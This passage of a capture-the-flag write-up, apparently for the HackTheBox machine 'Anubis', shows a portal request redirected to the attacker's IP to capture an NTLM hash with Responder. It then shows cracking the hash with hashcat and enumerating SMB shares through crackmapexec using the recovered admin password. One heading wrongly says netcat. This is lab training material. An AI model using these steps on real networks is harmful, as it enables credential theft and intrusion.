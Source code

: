 ![](/assets/images/2022-03-09-19-34-50.png)
Checking the link, there's an ip adress there, which seems to belong to the victim/htb machine/container.
```
http://softwareportal.windcorp.htb/install.asp?client=172.27.199.150&software=7z1900-x64.exe
```
Let's change the IP.
```
http://softwareportal.windcorp.htb/install.asp?client=10.10.14.17&software=7z1900-x64.exe
```
Let's start Responder with `sudo responder -I tun0` and send request above.
![](/assets/images/2022-03-09-20-36-20.png)
### Decoding the hash using netcat
Let's start hashcat and see if we can get the password
```
hashcat -m 5600 ./hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/2022-03-09-20-42-07.png)
So there's tha password for `localadmin` - `Secret123`
# Beyond webserver01
## Enumertion of SMB Shares using credentails on Earth machine
```
luka@kali:~/htb/anubis$ crackmapexec smb 10.10.11.102 -u localadmin -p Secret123 --shares
SMB         10.10.11.102    445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.102    445    EARTH            [+] windcorp.htb\localadmin:Secret123 
SMB         10.10.11.102    445    EARTH            [+] Enumerated shares
SMB         10.10.11.102    445    EARTH            Share           Permissions     Remark
SMB         10.10.11.102    445    EARTH            -----           -----------     ------
SMB         10.10.11.102    445    EARTH            ADMIN$                          Remote Admin
SMB         10.10.11.102    445    EARTH            C$                              Default share
SMB         10.10.11.102    445    EARTH            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.11.102    445    EARTH            IPC$            READ            Remote IPC
SMB         10.10.11.102    445    EARTH            NETLOGON        READ            Logon server share 
SMB         10.10.11.102    445    EARTH            Shared          READ            
```